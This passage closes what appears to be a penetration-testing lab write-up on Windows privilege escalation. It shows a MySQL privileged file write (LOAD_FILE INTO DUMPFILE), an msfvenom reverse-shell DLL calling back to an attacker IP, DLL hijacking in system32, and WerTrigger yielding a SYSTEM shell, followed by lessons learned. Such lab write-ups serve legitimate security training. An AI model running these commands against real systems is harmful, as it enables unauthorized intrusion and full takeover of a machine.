<figure><figcaption><p>Examining the permissions of said file</p></figcaption></figure>

This means I will be able to overwrite most system files opening the door to DLL/Binary Hijacking. I can also read a file and then write it as Administrator. To demonstrate I copy the test.txt file with the command:


```sql
SELECT LOAD_FILE('C:\\xampp\\htdocs\\test.txt') INTO DUMPFILE 'C:\\xampp\\htdocs\\test2.txt';
```


And then read it confirming it contains "test":

<figure><figcaption><p>Confirming copying abilities</p></figcaption></figure>

### WerTrigger

[`WerTrigger`](https://github.com/sailay1996/WerTrigger) is a tool that can get an elevated shell when a user has at least the ability to write files as the Administrator. It is a DLL Hijacking tool "weaponizing for privileged file writes bugs with windows problem reporting"

The overall attack is to:

<figure><figcaption><p>Description from tool's GitHub</p></figcaption></figure>

In this case `phoneinfo.dll` will be a malicious DLL, a reverse shell crafted with `msfvenom`:


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.234 LPORT=445 -f dll -o phoneinfo.dll
```


I copy all of the files needed to the victim machine via `curl`:

<figure><figcaption><p>Files moved successfully</p></figcaption></figure>

I will then use my MySQL session and the following command to write `phoneinfo.dll` to the `system32` directory:


```sql
SELECT LOAD_FILE('C:\\Users\\apache\\.wkg\\phoneinfo.dll') INTO DUMPFILE 'C:\\Windows\\system32\\phoneinfo.dll';
```


This is successful. I then start a listener on port 445 and use my shell session to run `WerTrigger.exe`:

<figure><figcaption><p>Running WerTrigger</p></figcaption></figure>

Weirdly the output indicated the exploit had failed but it did not. I caught a `SYSTEM` shell at port 445:

<figure><figcaption><p>SYSTEM shell</p></figcaption></figure>

Elevated access achieved as `SYSTEM`.

## Learned

* **`responder`:** I knew about `responder` by this point but it just continued to prove its usefulness in this lab
* **Enumerate Internal Network Interface:** I forgot to check what was listening on the internal interface for a long time. Once I did I saw `MySQL` and also remembered the `403` on `phpmyadmin`. Both of which were accessible via the internal interface using `chisel`.
* **`chisel`:** I had forgotten how helpful chisel is as a proxying tool but it made reaching the internal network interface of the victim quite easy
* **`WerTrigger`:** This is a really nice tool for turning privileged file write into `SYSTEM` interactive shell

### Difficulty Rating

* **Foothold 3/10:** Need to remember to check everything in `searchsploit` (or Exploit-DB).
* **Privilege Escalation 6/10:** A lot was required from discovering the internal interface items, to proxying to them, to exploiting them successfully.
